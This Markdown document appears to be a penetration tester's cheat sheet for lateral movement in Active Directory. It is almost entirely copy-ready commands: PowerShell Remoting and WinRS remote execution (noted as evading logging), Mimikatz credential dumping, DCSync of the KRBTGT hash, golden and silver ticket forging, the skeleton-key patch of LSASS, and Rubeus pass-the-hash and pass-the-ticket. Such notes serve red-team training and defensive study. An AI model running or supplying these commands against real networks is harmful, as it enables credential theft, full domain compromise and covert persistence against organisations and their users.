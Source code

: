 ## AD Lateral Movement

- [PowerShell Remoting](#powershell-remoting)
  * [Enable PowerShell Remoting](#enable-powershell-remoting)
  * [Create Remote Session](#create-remote-session)
  * [Entering into Existing PSSession](#entering-into-existing-pssession)
  * [Remote Execution](#remote-execution)
- [WinRS](#winrs)
  * [Execute Remote Command](#execute-remote-command)
- [MimiKatz PowerShell Port](#mimikatz-powershell-port)
  * [Dump Credentials on Local Machine](#dump-credentials-on-local-machine)
  * [Extract credentials from SAM](#extract-credentials-from-sam)
  * [OverPass the Hash](#overpass-the-hash)
  * [Get KRBTGT Hash](#get-krbtgt-hash)
  * [Credential Vault](#credential-vault)
  * [Golden Ticket](#golden-ticket)
  * [Silver Ticket](#silver-ticket)
  * [Skeleton Key Attack](#skeleton-key-attack)
  * [Export Tickets](#export-tickets)
  * [Pass The Ticket](#pass-the-ticket)
- [Rubeus](#rubeus)
  * [OverPass The Hash](#overpass-the-hash)
  * [Pass the Ticket](#pass-the-ticket)


### PowerShell Remoting
---
> tcp/5985
```powershell
# Check computers where PS Remoting can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```

#### Enable PowerShell Remoting  
```powershell
C:> Enable-PSRemoting 
```
#### Create Remote Session 
```powershell
# Create a Session in Local Computer
C:> New-PSSession

# Create Session on Remote Computer
C:> $remote_computer = New-PSSesion -ComputerName <computer>

# Create Session on Multiple Computers
C:> $s1, $s2, $s3 = New-PSSession -ComputerName Server01,Server02,Server03
```
#### Entering into Existing PSSession
```powershell
# A Completelly New Session to Computer
C:> Enter-PSSession -ComputerName <computer>

# A session created previously with New-PSSession
C:> $remote_computer = New-PSSesion -ComputerName <computer>
C:> Enter-PSSession -Session $remote_computer
```
#### Remote Execution
```powershell
# Remote Execution With Credentials
c:> $SecPassword = ConvertTo-SecureString '<password>' -AsPlainText -Force
C:> $Cred = New-Object System.Management.Automation.PSCredential('<domain>\<user>', $SecPassword)
C:> Invoke-Command -ComputerName <computer> -Credential $Cred -ScriptBlock {whoami}

# Run Local Script in Remote Computer
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName <computer>
C:> Invoke-Command -FilePath c:\scripts\test.ps1 -ComputerName (Get-Content <list_of_servers>)

# Run Command (Script Block) on Remote Computer
C:> Invoke-Command -ComputerName <host> -Credential <domain>\<user> -ScriptBlock {whoami;hostname}
C:> Invoke-Command -Scriptblock {Get-Process} -ComputerName (Get-Content <list_of_servers>)

# Execute Locally Loaded Function in Remote Computer
C:> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <host>

# Persistent Connection, Series of Commands Sharing Data
C:> $s = New-PSSession -ComputerName <computer>                             # Without this, 2 lines below wouldn't share data on $s
C:> Invoke-Command -Session $s -ScriptBlock {$p = Get-Process PowerShell}
C:> Invoke-Command -Session $s -ScriptBlock {$p.VirtualMemorySize}          # $sp is from previous command

```

### WinRS
---
```powershell
# Check computers where WinRS can be used
C:> . .\Find-PSRemotingLocalAdminAccess.ps1
C:> Find-PSRemotingLocalAdminAccess
```
Uses same port as PSRemoting, and evades Remoting Logging.
#### Execute Remote Command
```powershell
# Use `cmd`as command to get a shell
C:> winrs -remote:<computer> -u:<domain>\<user> -p:<password> <command>
```

### MimiKatz PowerShell Port
---
Requires Local Admin Privileges on computer where is run.
```powershell
C:> . .\Invoke-Mimikatz.ps1
```
#### Dump Credentials on Local Machine
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```
#### Extract credentials from SAM
```powershell
C:> Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"'
```
#### OverPass the Hash
```powershell
# Starts Powershell with logon type 9
C:> Invoke-Mimikatz -Command '"sekurlsa::pth /user:<user> /domain:<fqdn_domain> /aes256:<user_aes256key> /run:cmd.exe"'
```
#### Get KRBTGT Hash
```powershell
# Run on DC, Domain Admin privileges required
C:> Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <dc-hostname>

# DCSync: Domain Admin privileges required to run 
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt"'
# DCsync for another domain
C:> Invoke-Mimikatz -Command '"lsadump::dcsync /user:<domain>\krbtgt /domain:<fqdn_domain>" "exit"'
```
#### Credential Vault
```powershell
# Interesting Credentials are stored here, like credentials for scheduled tasks
C:> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
#### Golden Ticket
```powershell
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:<username> /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# For Administrator User
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> 
    /aes256:<krbtgt_aes_key> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
#### Silver Ticket
```powershell
# Get Privileges to access HOST service as Administrator on host
C:> Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn> 
    /service:HOST /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# Privileges for RPCSS service
C:> Invoke-Mimikatz -Command '0"kerberos::golden /User:Administrator /domain:<domain_fqdn> /sid:<domain_sid> /target:<host_fqdn>  
    /service:RPCSS /rc4:<host_ntlm_hash> /startoffset:0 /endin:600 /renewmax:10080 /ptt" "exit"'
    
# With this two tickets, can execute WMI commands on host
```
#### Skeleton Key Attack
```powershell
# To run on DC. Allows init session with password mimikatz
C:> Invoke-Mimikatz -Command '"privilege::debug" "misc::skeleton"' -ComputerName <hostname>

# Patches lsass to allow login to any username using 'mimikatz' as passwd
```
#### Export Tickets
```powershell
C:> Invoke-Mimikatz -Command '"sekurlsa::tickets /export"' 
```
#### Pass The Ticket
```powershell
C:> Invoke-Mimikatz -Command "kerberos::ptt <KirbiFile>"
```
### Rubeus
---
#### OverPass The Hash
```powershell
C:> Rubeus.exe asktgt /user:<username> /aes256:<aes256_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
C:> Rubeus.exe asktgt /user:<username> /ntlm:<ntlm_rc4_key> /opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt

```
#### Pass the Ticket
```powershell
C:> Rubeus.exe ptt /ticket:<base64_TGT>
```
